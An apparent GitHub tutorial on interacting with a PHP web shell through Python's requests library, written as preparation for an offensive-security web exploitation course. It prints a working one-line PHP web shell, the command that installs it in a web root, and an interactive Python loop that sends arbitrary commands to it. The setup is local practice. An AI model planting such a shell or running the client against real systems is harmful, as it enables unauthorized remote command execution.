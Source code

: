 # Interact with Web Shells Using Python
Whether you're a seasoned penetration tester or a beginner, the field of penetration testing is a mile long and a mile deep; the opportunities within all the disciplines are endless. Offensive Security offers an advanced course called Advanced Web Attacks and Exploitation (AWAE) https://www.offensive-security.com/awae-oswe/ that focuses on white box web app penetration tests. 

## Objectives
Prior to registering for the course, you should ensure that you are familiar with writing scripts in at least one programming language. It is a common recommendation for you to focus on python and it's requests library. Interacting with web shells is a great way to practice both. However, once you start to get the hang of how it works, you could practice this with any language, all from your Kali Linux. Let's get our feet wet:

1. Hosting a Web Shell
2. Interface Class
3. Requests Module
4. Interacting with a Web Shell

## Hosting a Web Shell
A web shell is a web file that provides you a shell-like interface that you can use to interact with the operating system through arbitrary commands. For this example, we'll use a PHP file as it's a very simple syntax. On your Kali machine, simply create a php file on your web root with `<?php system($_GET["command"]); ?>` in the body and start up Apache.

```console
──(tristram㉿kali)-[~]
└─$ echo '<?php system($_GET["command"]); ?>' | sudo tee /var/www/html/shell.php
```

**Let's break down that PHP Code:**

* system is a built-in function that is used to execute the given command
* GET is a variable that contains form data from a get method
* command is the parameter that we'll use to pass our string with contains the command we want to have run via the system function

We can view this in action manually using our browser as such to confirm we have a working web shell:

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/browser_interaction.PNG?raw=true "browser_interaction")

## Interface Class
This piece is completely optional, but is a good habit to get into if you're new to writing scripts. Specifically, you should get into the habit of being consistent with your code so pieces are re-usable and readable. This can provide you a clean looking interface that you could re-use in various other scripts. 

Consider the following example of an interface class that we can be used to print banners and other formatted messages to the terminal:

```Python
# Simple interface class
class Interface ():
    def __init__ (self):
        self.red = '\033[91m'
        self.green = '\033[92m'
        self.white = '\033[37m'
        self.yellow = '\033[93m'
        self.bold = '\033[1m'
        self.end = '\033[0m'

    def header(self):
        print('\n    >> Remote Code Execution')
        print('    >> https://www.github.com/gh0x0st\n')

    def info (self, message):
        print(f"[{self.white}*{self.end}] {message}")

    def warning (self, message):
        print(f"[{self.yellow}!{self.end}] {message}")

    def error (self, message):
        print(f"[{self.red}x{self.end}] {message}")

    def success (self, message):
        print(f"[{self.green}✓{self.end}] {self.bold}{message}{self.end}")

# Instantiate our interface class
output = Interface()

# Output examples
output.header()
output.info('Informational Message')
output.warning('Warning Message')
output.error('Error Message')
output.success('Success Message')
```

Keep in mind when you create a class, `__init__` is executed every time you instantiate the class. Here, we'll use `__init__` to hold the values for our color codes. Then we'll define the functions or methods that will output our header and message logs when we call them from within our interface object.

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/interface_class.png?raw=true "interface_class")

## Requests Module
The requests module is a python library that allows you to make web requests, such as GET and POST requests. Within the AWAE course, you can imagine that would be extremely useful and it would be to your benefit to get comfortable with it before you start your course. It is also a very straight forward module to learn. 

With this example, all we're going to focus on are GET requests. It's relatively straight forward to invoke these requests, but play around and see what other information you could have stored in r after your initial request.

```Python
import requests
r = requests.get('http://127.0.0.1')
r.status_code
r.text
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/requests_module.png?raw=true "requests_module")

## Interacting with a Web Shell
Now that we have a web shell that we know we can interactive with manually via our browser, let's learn how to do so via the requests library. When we build a script that interacts with a web shell, we want to build in a way so we can interact it as if it was a terminal without having to run the script over and over for each command. 

To accomplish this, we'll use a `while True` loop that will constantly loop until we exit. Within this loop is where we'll use the requests library to make GET requests against the shell.php inserting our instruction into the 'command' parameter. 

You can also provide yourself a good visual indicator that you're connected with your web shell is to change the input text to something different using the `input` function. This is completely optional but gives you an opportunity to put your own style into your code.

```Python
# Remote code execution
while True:
    try:
        cmd = input("\033[91mRCE\033[0m > ")
        if cmd == 'exit':
            raise KeyboardInterrupt
        r = requests.get(target + "?command=" + cmd, verify=False)
        if r.status_code == 200:
            print(r.text)
        else:
            raise Exception
    except KeyboardInterrupt:
        sys.exit()
    except ConnectionError:
        output.error('We lost our connection to the web shell')
        sys.exit()
    except:
        output.error('Something unexpected happened')
        sys.exit()
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/rce_script.png?raw=true "rce_script")

## Putting it all together
By putting everything together, we can create ourselves a baseline script that we can use to interact with a web shell via python. Once you break down the tasks you need to accomplish into smaller bits, you'll see how easy it is to learn new aspects of a programming language that you might not be familiar with. 

If you want to take this to the next level, setup your Kali machine with a HTML form and a PHP file upload script and practice uploading files with a POST request and chain your script with what you've learned with GET requests to create a fully scripted exploit.

Be informed, be secure.
